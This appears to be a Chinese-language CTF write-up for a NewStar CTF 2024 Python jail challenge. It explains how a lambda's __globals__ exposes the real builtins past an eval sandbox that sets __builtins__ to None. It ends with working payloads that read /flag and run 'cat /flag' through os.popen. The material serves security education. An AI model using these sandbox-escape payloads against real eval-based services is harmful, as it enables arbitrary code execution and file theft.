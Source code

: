 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import SVGGithub from '@docs/assets/icons/mdi--github.svg?component'
</script>

# 臭皮踩踩背

题目需要用 nc 连接，给出了部分源码：

```python
def ev4l(*args):
    print(secret)
inp = input("> ")
f = lambda: None
print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
```

完整源码：

```python
print('你被豌豆关在一个监狱里……')
print('豌豆百密一疏，不小心遗漏了一些东西…')
print('''def ev4l(*args):\n\tprint(secret)\ninp = input("> ")\nf = lambda: None\nprint(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))''')
print('能不能逃出去给豌豆踩踩背就看你自己了，臭皮…')

def ev4l(*args):
    print(secret)

secret = '你已经拿到了钥匙，但是打开错了门，好好想想，还有什么东西是你没有理解透的？'

inp = input("> ")

f = lambda: None

if "f.__globals__['__builtins__'].eval" in inp:
    f.__globals__['__builtins__'].eval = ev4l
else:
    f.__globals__['__builtins__'].eval = eval

try:
    print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
except Exception as e:
    print(f"Error: {e}")
```

再此之前，我们来学习一下[参考文档](/guide/2024/week3.html#臭皮踩踩背)中的内建函数 `__builtins__`，还有 `globals` 到底是什么，再了解的 `eval()` 的原理，逃离这个上下文。

::: warning 注意
下面的代码块中，除特别说明外，若代码块中存在 `>>>` 开头，则表示该代码块是在自己的 Python 环境中作为测试执行的<span data-desc>（直接命令行运行 `python`）</span>，否则，则是 nc 后发送给题目的内容。
:::

## globals 和 builtins

`globals` 是我们当前的全局空间，如果你声明一个全局变量，它将会存在于当前的 `globals` 中，我们可以看一下 `globals` 中到底有哪些内容，直接新建一个 Python 会话：

```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}
>>> x=1
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'x': 1}
```

但是为什么我们能够直接调用 `open()` 函数呢？因为。但是如果访问了 `open` 函数，如果 `globals` 中有，那就执行 `globals` 中的<span data-desc>（可能是你自己定义的，因此存在于 `globals` 空间中）</span>，否则，执行 `builtins` 中的<span data-desc>（类似 `open` `eval` `__import__` 之类的函数都是在 `builtins` 中的）</span>。

我们来查看一下 `builtins` 中到底有哪些内容：

```python
>>> globals()['__builtins__'].__dict__.keys()
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__build_class__', '__import__', 'abs', 'all', 'any', 'ascii', 'bin', 'breakpoint', 'callable', 'chr', 'compile', 'delattr', 'dir', 'divmod', 'eval', 'exec', 'format', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'isinstance', 'issubclass', 'iter', 'aiter', 'len', 'locals', 'max', 'min', 'next', 'anext', 'oct', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'None', 'Ellipsis', 'NotImplemented', 'False', 'True', 'bool', 'memoryview', 'bytearray', 'bytes', 'classmethod', 'complex', 'dict', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'object', 'range', 'reversed', 'set', 'slice', 'staticmethod', 'str', 'super', 'tuple', 'type', 'zip', '__debug__', 'BaseException', 'Exception', 'TypeError', 'StopAsyncIteration', 'StopIteration', 'GeneratorExit', 'SystemExit', 'KeyboardInterrupt', 'ImportError', 'ModuleNotFoundError', 'OSError', 'EnvironmentError', 'IOError', 'WindowsError', 'EOFError', 'RuntimeError', 'RecursionError', 'NotImplementedError', 'NameError', 'UnboundLocalError', 'AttributeError', 'SyntaxError', 'IndentationError', 'TabError', 'LookupError', 'IndexError', 'KeyError', 'ValueError', 'UnicodeError', 'UnicodeEncodeError', 'UnicodeDecodeError', 'UnicodeTranslateError', 'AssertionError', 'ArithmeticError', 'FloatingPointError', 'OverflowError', 'ZeroDivisionError', 'SystemError', 'ReferenceError', 'MemoryError', 'BufferError', 'Warning', 'UserWarning', 'EncodingWarning', 'DeprecationWarning', 'PendingDeprecationWarning', 'SyntaxWarning', 'RuntimeWarning', 'FutureWarning', 'ImportWarning', 'UnicodeWarning', 'BytesWarning', 'ResourceWarning', 'ConnectionError', 'BlockingIOError', 'BrokenPipeError', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionRefusedError', 'ConnectionResetError', 'FileExistsError', 'FileNotFoundError', 'IsADirectoryError', 'NotADirectoryError', 'InterruptedError', 'PermissionError', 'ProcessLookupError', 'TimeoutError', 'open', 'quit', 'exit', 'copyright', 'credits', 'license', 'help', '_'])
```

可以看到 `open` `eval` `__import__` 等函数都在 `builtins` 中。

## eval

`eval` 函数的第一个参数就是一个字符串，即你要执行的 Python 代码，第二个参数就是一个字典，指定在接下来要执行的代码的上下文中，`globals` 是怎样的。

题目中，`eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l})` 这段代码，`__builtins__` 被设置为 `None`，而我们输入的代码就是在这个 `builtins` 为 `None` 的上下文中执行的，我们从而失去了直接使用 `builtins` 中的函数的能力，像下面的代码就会报错<span data-desc>（题目中直接输入 `print(1)`）</span>：

```python
>>> eval('print(1)', {"__builtins__": None})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

由于全局 `global` 中没有 `print`，从而从 `builtins` 中寻找，而 `builtins` 为 `None`，触发错误。

但注意看，题目刚好给了一个匿名函数 `f`，看似无用，实际上参考文档已经给出提示——**Python 中「一切皆对象」**。故可以利用函数对象的 `__globals__` 属性来逃逸。我们可以在 Python 终端测试一下：

```python
>>> f = lambda: None
>>> f.__globals__
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'f': <function <lambda> at 0x0000026073850700>}
```

函数的 `__globals__` 记录的是这个函数所在的 `globals` 空间，而这个 `f` 函数是在题目源码的环境中（而不是题目的 eval 的沙箱中），我们从而获取到了原始的 `globals` 环境，然后我们便可以从这个原始 `globals` 中获取到原始 `builtins`：

```python
f.__globals__['__builtins__']
```

## 深入探究 eval 的 builtin 逻辑

但这里还有一个问题，如果我们直接调用 `f.__globals__['__builtins__'].eval`，先不说题目会替换掉 `eval` 函数<span data-desc>（实际上在点号前随便几个空格或者字符串拼接就能绕过，下不赘述）</span>，即使我们能够调用，也会报错：

```python
>>> f = lambda: None
>>> inp='''f.__globals__['__builtins__'].eval('print(1)')'''
>>> eval(inp, {"__builtins__": None, 'f': f})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

为什么呢？可以看 Python 解释器的 `builtins` 相关的代码：[<SVGGithub width='1.2em' height='1.2em' style='display: inline-block; vertical-align: sub;' /> bltinmodule.c](https://github.com/python/cpython/blob/079875e39589eb0628b5883f7ffa387e7476ec06/Python/bltinmodule.c#L996-L1002).

![bltinmodule.c](/assets/images/wp/2024/week3/caicaibei_1.png)

可见，会检查 `globals` 中是否已经包含了 `builtins`，如果没有，则会通过 `PyEval_GetBuiltins()` 获取默认的内置函数，并将其添加到 `globals` 中。

又因为[官方文档中对 `eval` 函数的描述](https://docs.python.org/3.10/library/functions.html#eval)：

![官方文档](/assets/images/wp/2024/week3/caicaibei_2.png)

因此，报错的原因便是，我们在 `inp` 中的 `eval` 并没有指定 `globals`，因此 Python 会将**当前调用处的上下文的 `globals`** 作为第二个参数，即使设定了第二个参数但没有指定 `__builtins__`，Python 也会自动注入**当前上下文**中的 `builtins`（也就是未指定则继承）。但当前上下文中的 `builtins` 是 `None`，因此会报错。

绕过也很简单，显式指定即可：

```python
>>> inp='''f.__globals__['__builtins__'].eval('print(1)', { "__builtins__": f.__globals__['__builtins__'] })''' # [!code highlight]
>>> eval(inp, {"__builtins__": None, 'f': f})
```

可以看下面的结构树：

```python
# In source code
globals()               <- f.__globals__
  ├─ __builtins__       <- f.__globals__['__builtins__']
  │  ├─ open            <- f.__globals__['__builtins__'].open
  │  ├─ eval            <- f.__globals__['__builtins__'].eval
  │  └─ ...
  ├─ f                  <- f.__globals__['f']
  └─ ...
    # In `eval(inp, {"__builtins__": None, "f": f})`
    globals()
      ├─ __builtins__   <- None
      ├─ f
      └─ ...
      # Though `f` was from top globals, and you can reach top builtins by `f.__globals__['__builtins__']`
      # the context is still at this level when you run `eval()` AKA `f.__globals__['__builtins__'].eval()`
      # so Python will inject the current builtins, which is `None`, into the `eval` context
```

## Payload

综上，Payload 其实有很多种，这里列举一些：

::: code-group

```python [读文件]
f.__globals__['__builtins__'].open('/flag').read()
```

```python [代码执行]
f.__globals__['__builtins__'] .eval('open("/flag").read()', { "__builtins__": f.__globals__['__builtins__'] })
```

```python [命令执行]
f.__globals__['__builtins__'].__import__('os').popen('cat /flag').read()
```

:::
